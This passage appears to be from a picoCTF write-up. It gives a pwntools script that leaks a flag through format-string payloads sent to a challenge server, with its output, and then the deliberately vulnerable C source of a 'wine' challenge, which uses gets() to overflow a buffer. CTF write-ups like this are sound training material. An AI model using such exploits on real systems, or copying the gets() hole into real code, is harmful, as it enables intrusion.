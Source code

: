 ```python
#!/usr/bin/python3.8
from tqdm import tqdm
from pwn import *
import warnings
import binascii
warnings.filterwarnings('ignore')
context.log_level = 'critical'

i = 36
flag = ''

for i in tqdm(range(i, 100)):
  r = remote('saturn.picoctf.net', 52815)
  r.sendlineafter('>> ', f'%{i}$p')
  r.recvline()
  flag += bytes.fromhex(r.recvline()[2:].strip().decode()).decode()[::-1]
  if '}' in flag:
    print(f'\nFlag --> {flag}\n')
    r.close()
    exit()
  i += 1
  r.close()
```

```bash
➜  flag leak git:(main) ✗ python solver.py
 14%|████████▏                                                 | 9/64 [00:03<00:22,  2.46it/s]
Flag --> picoCTF{XXX}
```

### wine

Download the files and `cat vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}
```